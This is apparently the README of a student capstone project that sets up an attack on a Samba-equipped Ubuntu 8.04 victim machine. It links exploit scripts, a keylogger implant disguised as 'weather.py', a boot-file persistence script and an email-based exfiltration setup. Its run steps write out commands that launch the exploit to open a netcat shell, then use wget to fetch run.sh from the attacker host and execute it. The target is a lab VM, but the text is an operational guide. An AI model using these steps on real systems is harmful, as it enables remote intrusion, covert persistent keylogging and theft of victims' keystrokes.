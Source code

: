 # Capstone

## Exploit Scripts
- [exploit](exploit/exploit.sh)
- [run keylogger](exploit/run.sh)
- [add keylogger to boot file](exploit/rewriteBoot.sh)
## Python Scripts
- [implant](python/weather.py)
- [server](python/server.py)
- [email contents](python/keylog.txt)
- [decrypt email](python/decrypt_email.py)
## Binary
- [implant compiled to binary](exploit/weather)

## Requirements
### Email
An email address, preferably temporary, is needed so that the keylogger can send the key log data back
### Virtual Machines

### Attacker

- Linux based machine with python on it (Kali-Linux is recommended)
- Unix based machine

### Victim

- [Ubuntu 8.04 Desktop with samba installed](https://drive.google.com/file/d/1bCviB84Nn4B2H-JRrIk0tRF7tXcdrCtE/view?usp=sharing)

## How To Run

1. Turn on all three devices (both [attackers](#attacker) and [victim](#victim)). You don’t need to login [victim](#victim), but you do need to login both [Kali-Linux and Server](#attacker).
2. In the [Kali-Linux](#attacker), copy all the bash script files and binary file into the same folder

    ```bash
    > ls # should see only 4 files
    exploit.sh rewriteBoot.sh  run.sh weather
    ```

3. Start attack by:

    ```bash
    chmod +x exploit.sh # give permission
    ./exploit.sh <Target IP> <Kali-Linux IP> # run exploit script
    ```

   Give it seconds, if nothing showing after typing the command, give it another try.

4. Inside the netcat shell:

    ```bash
    wget http://<Kali-Linux IP>:8564/run.sh
    chmod +x run.sh
    ./run.sh <Kali-Linux IP> <Email Address> <Server IP>
    ```

   Terminate the process after a few second. You need to type CRTL+C twice. One for the NetCat one for the http server.